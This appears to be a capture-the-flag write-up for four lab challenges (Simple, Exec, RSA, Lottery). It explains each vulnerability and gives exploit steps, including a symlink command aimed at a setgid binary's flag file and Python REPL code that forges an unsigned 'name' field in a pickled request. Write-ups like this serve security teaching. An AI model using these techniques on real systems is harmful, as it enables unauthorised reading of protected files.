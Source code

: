 Simple
======

Files
-----

    -rwxr-sr-x 1 root simple  5266 Apr  6 02:08 simple
    -rw-r--r-- 1 root root     363 Apr  6 02:08 simple.c
    -rw-r----- 1 root simple    33 Apr  6 02:00 simple.flag
    -rw-r--r-- 1 root root      33 Apr  6 01:59 simple.not.the.flag

Synopsis
--------

This program opens a file named "simple.not.the.flag" and prints its contents.
The file containing the flag is named "/flags/simple.flag".

Vulnerability
-------------

The open call looks in the current directory for a file named
"simple.not.the.flag" and will follow symlinks, rather than opening the
intended file named "/flags/simple.not.the.flag" which the unprivileged user
has no control over.

Exploit
-------

Change the current directory to one in which we have write permissions.

    cd ~

Create a symlink named "simple.not.the.flag" that points to the flag file we
want.

    ln -s /flags/simple.flag simple.not.the.flag
    
Run the program from this directory.

    /flags/simple

Exec
====

Files
-----

    -rwxr-sr-x 1 root exec    6477 Apr  5 22:50 exec
    -rw-r--r-- 1 root root     883 Apr  5 22:50 exec.c
    -rw-r----- 1 root exec      33 Apr  5 00:32 exec.flag

Synopsis
--------

This program:

1. Opens the flag file "/flags/exec.flag".
2. Reads it into memory.
3. Forks a child process.
4. Drops privileges in the child process before executing a user-specified
program.
5. Waits for the child to exit.

Vulnerability
-------------

The program forgets to close the open file descriptor to the flag file before
execing the user-specified program in step 4. Step 2 is simply misdirection
supported by comments in the code.

Exploit
-------

Write a program which performs the following operations on file descriptor
number 3:

1. Seeks to the beginning of the file.
2. Reads the contents of the file and prints it out.

Run the exec program given the name of the our exploit program to execute.

RSA
===

Files
-----

    -rwxr-xr-x 1 root root     217 Apr  6 00:41 make-keys.rsa
    -rw-r----- 1 root rsa       33 Apr  5 23:19 rsa.flag
    -rw-r----- 1 root rsa     1600 Apr  6 00:48 rsa.keys
    -rwxr-xr-x 1 root root    1966 Apr  6 23:12 rsa.py
    -rwxr-sr-x 1 root rsa     5794 Apr  6 20:19 rsa-runner
    -rw-r--r-- 1 root root     468 Apr  6 20:19 rsa-runner.c

Synopsis
--------

The make-keys.rsa program is a python script which generates the rsa.keys
keystore containing a private and public key for "Alice" and a public key for
"Bob".
The rsa-runner program is a setgid wrapper for rsa.py, since interpred scripts
cannot be run setgid.
The rsa.py program reads the flag file and the keystore into memory and then
starts a TCPServer to handle requests. When a request is received it is
unpickled into a python object and the "request" property is examined.
If the request property is the string "start" a new python object with the
following properties is pickled and sent to the remote peer:

    name = "Alice"
    request = "get_flag"
    keyid = MD5(DER encoding of Alice's public key)
    signature = Sig(request + ":" + AsciiHex(keyid), Alice's private key)

If the request property is the string "get_flag" the message must pass these
tests before the flag is sent to the remote peer:

1. The the name property must exist in the keystore.
2. The keyid property must match the MD5 hash of a key in the keystore.
3. The name must not be the string "Alice".
4. The signature is validated against the key in the keystore which matches the
keyid property.

Vulnerability
-------------

The name property is not covered by the signature, nor is it checked against
keyid, nor is it used to select the signature verification key, so it can be
modified without detection leaving a "valid" get_flag request.

Exploit
-------

Using the python REPL, connect to the rsa.py server, send the "start" request,
and unpickle the response.

    >>> import socket, pickle
    >>> sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    >>> sock.connect(('localhost', 6666))
    >>> class Request:
    ...    pass
    ...
    >>> msg = Request()
    >>> msg.request='start'
    >>> sock.sendall(pickle.dumps(msg))
    >>> buf = sock.recv(1024)
    >>> msg2 = pickle.loads(buf)
    
Reconnect to the server (this has something to do with the way I coded rsa.py),
modify the name property of the reponse to "Bob" and send it back.

    >>> sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    >>> sock.connect(('localhost', 6666))
    >>> msg2.name='Bob'
    >>> sock.sendall(pickle.dumps(msg2))
    
Consume the response and unpickle it.

    >>> buf = sock.recv(1024)
    >>> pickle.loads(buf)

Lottery
=======

Files
-----

    -rw-r----- 1 root 1666   33 Apr  5 22:33 lottery.flag

Synopsis
--------

This is simply a flag file that can only be read by group 1666.

Vulnerability
-------------

The CTF website allows competitors to create a user and group for themselves.

Exploit
-------

Write a script to create users and groups until group number 1666 is assigned.
